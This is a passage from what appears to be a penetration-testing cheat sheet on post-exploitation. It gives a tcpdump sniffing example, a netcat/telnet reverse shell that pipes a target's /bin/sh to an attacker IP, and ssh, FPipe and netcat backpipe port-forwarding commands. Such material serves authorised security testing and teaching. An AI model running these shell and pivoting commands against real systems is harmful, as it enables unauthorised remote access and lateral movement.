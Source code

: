 ```
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

```

_Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]_

#### Have you got a shell?  _Can you interact with the system?_

1
2
3

```
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!

```

_Note:  [http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/](http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)_

#### Is port forwarding possible?  _Redirect and interact with traffic from another view_

_Note:  [http://www.boutell.com/rinetd/](http://www.boutell.com/rinetd/)_

_Note:  [http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch](http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch)_

_Note:  [http://downloadcenter.mcafee.com/products/tools/foundstone/fpipe2_1.zip](http://downloadcenter.mcafee.com/products/tools/foundstone/fpipe2_1.zip)_

_Note: FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]_

1

```
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7

```

_Note: ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]_

1
2

```
ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port

```

_Note: mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe_

1
2
3
